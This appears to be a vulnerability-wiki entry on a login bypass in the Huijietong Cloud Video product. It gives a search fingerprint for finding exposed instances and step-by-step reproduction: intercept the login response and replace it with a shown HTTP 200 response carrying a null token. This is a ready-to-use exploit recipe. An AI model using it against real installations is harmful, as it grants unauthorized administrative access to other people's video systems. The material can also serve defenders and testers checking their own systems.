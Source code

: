 # Huijietong Cloud Video Login to bypass vulnerabilities

## Vulnerability Description

Huijietong Cloud Video has a login bypass vulnerability, and you can obtain background permissions by intercepting specific request packets and modifying them.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Huijietong Cloud Video</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">body="/him/api/rest/v1.0/node/role"</span>

## Vulnerability reappears

The login page is as follows

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313145725036.png)



Enter any account password to grab the packet

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313145724754.png)



Modify the return package as follows and then put the package successfully bypassing the login

```plain
HTTP/1.1 200 
Server: Hsengine/1.4.1
Date: Mon, 17 May 2021 16:13:43 GMT
Content-Type: application/json;charset=UTF-8
Connection: close
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Accept-Ranges: bytes
Vary: Accept-Charset, Accept-Encoding, Accept-Language, Accept
Content-Length: 61

{"token":null,"result":null}
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313145724948.png)